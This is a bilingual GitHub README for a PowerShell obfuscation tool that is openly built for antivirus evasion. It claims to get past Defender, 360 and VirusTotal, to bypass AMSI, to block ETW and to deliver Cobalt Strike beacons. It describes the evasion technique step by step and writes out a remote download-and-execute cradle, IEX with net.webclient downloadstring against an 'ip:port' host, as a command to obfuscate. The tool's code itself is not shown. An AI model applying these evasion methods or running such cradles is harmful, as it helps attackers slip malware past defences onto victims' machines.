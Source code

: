 # powershell-obfuscation

简单有效的powershell免杀混淆的小工具，VT全绿，可过Defender、360等，可执行上线cobaltstrike等操作。

AMSI混淆绕过+ETW混淆block+powershell命令混淆绕过。

**请勿使用于任何非法用途，由此产生的后果自行承担。**

上述测试环境均为实体机。

A simple and effective powershell obfuscaiton tool bypass Anti-Virus, VT.

AMSI-bypass obfuscation + ETW-block obfuscation + powershell command obfuscation.

**Please do not use it for any illegal purpose, and the consequences arising therefrom shall be borne by yourself.**

## 思路

这段时间看了看powershell反混淆相关的内容与论文，目前反混淆效果最好的应该是2022年qax的《Invoke-Deobfuscation: AST-Based and Semantics-Preserving Deobfuscation for PowerShell Scripts》，该论文延续了19年CCS浙大的思路并进行了改进，使用了变量追踪并在AST层面上进行了invoke解混淆，属于静态分析加部分的动态分析，比defender和VT的效果好不少。

**不过论文中也提到了当前powershell反混淆研究的难点，一个是自定义function加密解不开，一个是很难去追踪循环中的变量。**

由于部分的反混淆工具会在AST层面上进行反混淆的工作，因此powershell自带的大部分加密解密/编码解码的函数是形同虚设的，如[System.Convert]::FromBase64String等。应该尽可能去使用自定义的加密解密的function。

这里针对这两个学术界研究的难点，写了一个简单的powershell混淆器，事实证明效果确实也不错。具体思路如下：

1、自定义加密解密function，function中进行字符串的逆序（逆序没有用powershell自带的函数，防止AST层面上解混淆）与字符的+-运算（不使用异或运算的原因是defender对-bxor监控很严格）。

2、对上述function进行几次循环的运算。

3、为了能让字符有效地输出，最后用base64编码了一下（即便在AST层面上解开也无所谓，因为解开了的内容仍是混淆之后的）。

同时对AMSI绕过与ETW block与powershell命令进行了混淆。

这里仅仅实现了一个简单的混淆器demo，可以自由发挥，后续要是有时间的话我会继续完善。

实验了一下，用qax的反混淆工具与Unit42团队的反混淆工具都是解不开的。

The tool with the best anti-obfuscation effect at present should be《Invoke-Deobfuscation: AST-Based and Semantics-Preserving Deobfuscation for PowerShell Scripts》. This paper uses variable tracking and invoke de-obfuscation at the AST level, the effect is much better than that of defender and VT.

**However, this paper also mentioned the difficulties of the current powershell anti-obfuscation research. One is that the custom function encryption cannot be de-obfuscated, and the other is that it is difficult to track the variables in the loop.**

Since some de-obfuscation tools de-obfuscates at the AST level, most of the encryption/encoding functions that come with powershell are useless, such as [System.Convert]::FromBase64String and so on. You should use custom encryption and decryption functions as much as possible.

Aiming at the difficulties of these the academic research, I wrote a simple powershell obfuscator, and it turns out that the result is really good. The specific ideas are as follows:

1. Customize the encryption and decryption function. In the function, reverse the string (reversing string does not use the function that comes with powershell to prevent de-confusing at the AST level) and the +- operation of characters (the reason why the XOR operation is not used here is that the defender monitors -bxor strictly).

2. Perform several loop operations on the encryption and decryption function.

3. In order to allow the characters to be effectively output, it is finally encoded with base64 (even if it is decoded at the AST level, it does not matter, because the decoded content is still obfuscated).

This tool implements AMSI-bypass obfuscation, ETW-block obfuscation and powershell command obfuscation.

## 使用的方法

```./powershell-obfuscation.ps1 -c "whoami"``` 来混淆命令 obfuscates command

```./powershell-obfuscation.ps1 -f "filename"``` 来混淆指定的文件 obfuscates specific file

结果会输出在当前目录下的bypass.ps1中

The result can be found in bypass.ps1.

以cs的beacon.ps1为例

Take beacon.ps1 as an example

同样可以来混淆 IEX ((new-object net.webclient).downloadstring('http://ip:port/a'))

混淆前VT如下：

![1671255963304](https://user-images.githubusercontent.com/48757788/208227398-4b3abb77-bef6-4891-9798-31255c9557f8.png)

混淆后VT如下：

![1671255985878](https://user-images.githubusercontent.com/48757788/208227402-42d2cfce-9b19-4c69-b4b9-da2a4fc609f7.png)

上线：

![image](https://github.com/H4de5-7/powershell-obfuscation/blob/main/CS.png)
